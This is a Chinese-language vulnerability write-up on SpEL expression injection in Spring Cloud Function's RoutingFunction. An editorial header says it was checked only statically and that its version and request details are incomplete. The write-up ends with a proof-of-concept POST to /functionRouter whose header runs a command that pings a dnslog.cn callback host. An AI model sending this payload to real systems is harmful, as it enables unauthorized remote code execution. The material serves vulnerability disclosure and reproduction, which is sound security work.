


## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：只有产品名，main样例已变不能保证有漏洞

代码与实验材料：POST/functionRouter加表达式，Content-Length1但没有body；固定第三方DNS回调，响应图未视检

来源证据范围：官方样例main链接，无公告/修复

- **事实待核（1）**：版本与请求不完整；依据：main不可重建漏洞版本，声明1字节却没有正文。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

- **适用与权限边界（2）**：回调不是可复用目标；依据：DNS结果不能取代完整运行前提。按此限制解释本文结论，版本相同不足以证明所需角色、入口、配置、依赖或可控参数均已满足；原操作和失败记录一并保留。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Spring Cloud Function SPEL 远程命令执行漏洞

> 版本字段校订（2026-10-04）：代码、命令、路径、产品名或章节标记误入版本字段的值已逐字保存到对应 `previous_*` 字段；当前版本字段只记正文明确的来源范围，无范围时记为 unknown。后文对此元数据误填的旧说明描述校订前状态，其余实验条件与待核项仍按原文保留。

## 漏洞描述

Spring Cloud Function 是基于 Spring Boot 的函数计算框架，它抽象出所有传输细节和基础架构，允许开发人员保留所有熟悉的工具和流程，并专注于业务逻辑。 由于 Spring Cloud Function 中 RoutingFunction 类的 apply 方法将请求头中的“spring.cloud.function.routing-expression”参数作为 Spel 表达式进行处理，造成了 Spel 表达式注入漏洞，未经授权的远程攻击者可利用该漏洞执行任意代码。

## 漏洞影响

```
Spring Cloud Function
```

## 环境搭建

- https://github.com/spring-cloud/spring-cloud-function/tree/main/spring-cloud-function-samples/function-sample-pojo

## 漏洞复现

搭建后访问




发送 POC

```
POST /functionRouter HTTP/1.1
Host: 192.168.1.27:9000
spring.cloud.function.routing-expression: T(java.lang.Runtime).getRuntime().exec("ping -c 1 dxytoy.dnslog.cn")
Content-Length: 1
```

接收到请求




---

> 来源：Threekiii/Vulnerability-Wiki（https://github.com/Threekiii/Vulnerability-Wiki）
